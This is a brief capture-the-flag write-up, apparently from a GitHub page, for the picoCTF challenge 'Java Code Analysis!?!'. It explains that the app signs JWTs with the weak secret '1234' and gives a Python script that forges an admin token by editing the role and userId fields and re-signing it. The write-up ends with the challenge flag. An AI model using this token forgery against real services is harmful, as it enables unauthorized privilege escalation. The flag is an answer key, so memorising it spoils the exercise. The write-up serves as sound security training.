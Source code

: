 <h1>Java Code Analysis!?!</h1>
<h3>Description</h3>
<pre>
BookShelf Pico, my premium online book-reading service.
I believe that my website is super secure. I challenge you to prove me wrong by reading the 'Flag' book!
Here are the credentials to get you started:
Username: "user"
Password: "user"
Source code can be downloaded <a href='https://artifacts.picoctf.net/c/480/bookshelf-pico.zip'>here</a>.
Website can be accessed <a href='http://saturn.picoctf.net:61120/'>here!</a>.
</pre>
<h3>Description</h3>
<label>Secret HS256 = 1234, cek di src/main/java/io/github/nandandesai/pico/security/SecretGenerator.java</label><br>
<label>Cek JWT di localstorage</label>

```python
import base64
import hmac
import jwt
import hashlib
import json

def modify_jwt(header, payload, secret):
    header_base64 = base64.urlsafe_b64encode(header.encode()).decode().rstrip("=")
    payload = json.loads(payload)
    payload['role'] = 'Admin'
    payload['userId'] = 2
    payload = json.dumps(payload).replace("'",'"').replace(" ","")
    payload_base64 = base64.urlsafe_b64encode(payload.encode()).decode().rstrip("=")
    message = f"{header_base64}.{payload_base64}"
    signature = hmac.new(secret.encode(), message.encode(), hashlib.sha256).digest()
    signature_base64 = base64.urlsafe_b64encode(signature).decode().rstrip("=")
    jwt = f"{message}.{signature_base64}"
    print(payload)
    print(jwt)

jwt = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTc2MTcyMTMzMiwiaWF0IjoxNzYxMTE2NTMyLCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.mk8rWGeLpKZw6HCDy_kaLLvd8Whpjrxpa1pTBVrugjA'
secret = '1234'
header = base64.b64decode(jwt.split('.')[0]+'==').decode()
payload = base64.b64decode(jwt.split('.')[1]+'==').decode()
modify_jwt(header, payload, secret)
```
<label>Ganti JWT dari localstorage dan token payload<label>
<h3>Flag</h3>
<pre>
picoCTF{w34k_jwt_n0t_g00d_7745dc02}
</pre>
